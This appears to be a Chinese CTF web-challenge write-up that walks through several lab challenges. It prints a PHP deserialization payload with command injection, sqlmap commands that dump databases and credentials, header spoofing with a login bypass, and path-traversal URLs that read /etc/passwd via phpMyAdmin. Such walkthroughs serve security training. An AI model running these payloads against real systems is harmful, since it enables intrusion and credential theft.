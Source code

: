 ```yaml
---
title: 合天御宅战疫-web-wp
date: 2020-02-29
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```

# 合天御宅战疫-web-wp

## 签到

<!-- more -->

如图所示

[![mark](https://blogjpg.yanmy.top/blog/20200229/q0Oocw0yWWOb.jpg?imageslim)](https://blogjpg.yanmy.top/blog/20200229/q0Oocw0yWWOb.jpg?imageslim)

改成key{XXXX}提交

## 脑袋有点大

用bp抓包,在响应中找到key

[![mark](https://blogjpg.yanmy.top/blog/20200229/dFQYs1BGYQOz.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/dFQYs1BGYQOz.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200229/IORN4qHb421z.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/IORN4qHb421z.png?imageslim)

## 统一登录

打开界面,要登陆,登录不上,用dirmap扫一下目录

[![mark](https://blogjpg.yanmy.top/blog/20200229/TskYQljtjGHy.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/TskYQljtjGHy.png?imageslim)

找到源码泄露,下载下来

代码审计

在common文件夹下找到home.php,wakeup函数有一个waf过滤,最下方的

```
$a=@$_POST['a'];
@unserialize($a);
```

可以想到构造反序列化对象,直接执行我们构造的对象,利用system函数,home后面的数字大于2可以绕过wakeup函数从而绕过过滤

构造payload

```
a=O:4:"home":3:{s:12:"%00home%00method";s:4:"ping";s:10:"%00home%00args";a:1:{i:0;s:26:"127.0.0.1;cat /opt/key.txt";}}
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/Yj8LhB4w1QSC.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/Yj8LhB4w1QSC.png?imageslim)

## 后台key

[![mark](https://blogjpg.yanmy.top/blog/20200229/kX2mbF9SLn2B.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/kX2mbF9SLn2B.png?imageslim)

存在数字型sql注入

用sqlmap跑一下

爆库

```
sqlmap -u "http://118.190.100.227:5001/?r=content&cid=1"  -p "cid" --dbs
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/BE5Um90VnzOE.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/BE5Um90VnzOE.png?imageslim)

爆表

```
sqlmap -u "http://118.190.100.227:5001/?r=content&cid=1"  -p "cid" -D seacms --tables
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/hLkw8QttXHQP.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/hLkw8QttXHQP.png?imageslim)

爆字段

```
sqlmap -u "http://118.190.100.227:5001/?r=content&cid=1"  -p "cid" -D seacms -T manage --columns
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/i8fCB3zOQGEY.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/i8fCB3zOQGEY.png?imageslim)

爆内容

```
sqlmap -u "http://118.190.100.227:5001/?r=content&cid=1"  -p "cid" -D seacms -T manage -C user,password --dump
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/fM6cHxBQX6As.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/fM6cHxBQX6As.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200229/pTU7n82U9Swj.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/pTU7n82U9Swj.png?imageslim)

得到用户名和密码后,由于密码MD5加密了,所以用md5解密一下,得到密码登录系统,根据提示找到key

[![mark](https://blogjpg.yanmy.top/blog/20200229/Ppjbm5Y8SrTk.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/Ppjbm5Y8SrTk.png?imageslim)

## 后台登录

[![mark](https://blogjpg.yanmy.top/blog/20200229/4pCgjJT5hHRV.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/4pCgjJT5hHRV.png?imageslim)

打开发现静止访问,但是响应码为200说明可能因为是后台登录系统做了限制,改xff头后顺利访问

[![mark](https://blogjpg.yanmy.top/blog/20200229/HK6RCODAJsFr.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/HK6RCODAJsFr.png?imageslim)

使用万能密码登录,成功获取key

[![mark](https://blogjpg.yanmy.top/blog/20200229/hznWs2Nj07se.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/hznWs2Nj07se.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200229/F2DufvYCsrhm.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/F2DufvYCsrhm.png?imageslim)

## phpmyadmin

[![mark](https://blogjpg.yanmy.top/blog/20200229/MybinCxjXJSb.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/MybinCxjXJSb.png?imageslim)

根目录下面的robots.txt指明了key的位置

通过增加常用文件名phpmyadmin,成功找到登录地址

用弱口令root/root登录后,先尝试包含/etc/passwd判断目录层级

```
http://114.215.40.251:5002/phpmyadmin/index.php?a=phpinfo();&target=export.php%253f/../../../../../etc/passwd
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/V7A676OjqiFP.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/V7A676OjqiFP.png?imageslim)

然后再去包含key

```
http://114.215.40.251:5002/phpmyadmin/index.php?a=phpinfo();&target=export.php%253f/../../../../../opt/key.txt
```

[![mark](https://blogjpg.yanmy.top/blog/20200229/5KWYUpGJCx4T.png?imageslim)](https://blogjpg.yanmy.top/blog/20200229/5KWYUpGJCx4T.png?imageslim)